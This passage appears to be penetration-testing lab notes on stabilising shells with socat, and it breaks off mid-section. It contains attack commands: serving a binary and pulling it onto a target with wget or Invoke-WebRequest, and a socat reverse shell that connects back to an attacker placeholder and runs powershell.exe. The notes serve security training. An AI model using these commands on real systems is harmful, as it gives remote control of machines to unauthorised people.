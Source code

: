 > Socat

1. The third easy way to stabilize a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilization we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary `sudo python3 -m http.server 80`, then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget `wget <LOCAL-IP>/socat -O /tmp/socat`.

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`. We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.

### 2. Socat ###

* Socat is like netcat on steroids. It can do all of the same things, and many more. Socat shells are usually more stable than netcat shells out of the box. In this sense it is vastly superior to netcat; however, there are two big catches:

1. The syntax is more difficult
2. Netcat is installed on virtually every Linux distribution by default. Socat is very rarely installed by default.

* There are work around to both of these problems, which we will cover later on.
* Both Socat and Netcat have .exe versions for use on Windows.

> More

* Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!

> Reverse Shells

* As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:

```ZSH
socat TCP-L:<port> -
```

* As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`.
* On Windows we would use this command to connect back:

```ZSH
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

* The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.
* This is the equivalent command for a Linux Target:
